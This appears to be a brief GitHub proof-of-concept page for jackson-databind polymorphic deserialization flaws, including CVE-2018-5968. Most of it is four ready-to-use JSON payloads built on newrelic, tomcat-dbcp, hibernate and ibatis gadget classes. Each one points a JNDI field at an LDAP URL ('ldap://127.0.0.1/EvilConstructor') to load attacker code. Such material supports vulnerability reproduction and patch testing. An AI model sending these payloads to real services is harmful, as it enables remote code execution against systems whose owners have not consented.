 FasterXML jackson-databind 2.x before 2.9.10.8 mishandles the interaction between serialization gadgets and typing, 
related to com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource

newrelic-agent
```json
["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation":"ldap://127.0.0.1:1288/Exploitt"}]
```
tomcat-dbcp
```json
["org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource", {"dataSourceName":"ldap://127.0.0.1:1399/Exploit"}]
```

This is PoC with two different gadgets to reproduce CVE-2018-5968 which can be used to exploit the default typing in jackson-databind.
```json
{
  "id": 1111,
  "obj": [
    "org.hibernate.jmx.StatisticsService",
    {
      "sessionFactoryJNDIName": "ldap://127.0.0.1/EvilConstructor"
    }
  ]
}
```
```json
{
  "id": 1111,
  "obj": [
    "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    {
      "properties":
        {
          "data_source": "ldap://127.0.0.1/EvilConstructor"
        }
    }
  ]
}
```
